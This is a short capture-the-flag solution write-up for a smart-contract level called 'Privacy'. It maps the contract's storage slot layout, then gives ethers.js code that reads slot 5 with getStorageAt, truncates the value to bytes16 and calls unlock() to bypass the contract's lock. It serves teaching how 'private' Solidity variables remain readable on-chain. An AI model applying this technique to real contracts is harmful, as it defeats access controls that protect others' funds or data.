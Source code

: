 # Solution

To beat this level you need to read `data` array last element from the Privacy storage.

1. Reckon a storage slot number to read from:
```solidity
  bool public locked = true; // --> slot 0
  uint256 public ID = block.timestamp; // --> slot 1
  // next 3 slots are packed into one
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp); // --> slot 2
  bytes32[3] private data; // --> slots 3, 4, 5
```
Thus, you need to read data from a slot #5

2. Read a word (32 bytes) from the slot 5 off-chain using ethers.js
```typescript
const slot5 = await ethers.provider.getStorageAt(privacy.address, 5);
```
3. Convert `bytes32` to `bytes16`. Take the first 16 bytes of the word:
```typescript
const unlockKey = ethers.utils.hexlify(
  ethers.utils.arrayify(slot5).subarray(0, 16),
);
```
4. Unlock Storage
```typescript
const unlockTx = await privacy.unlock(unlockKey);
```

See a working solution in `test/Privacy.exploit.test.ts`
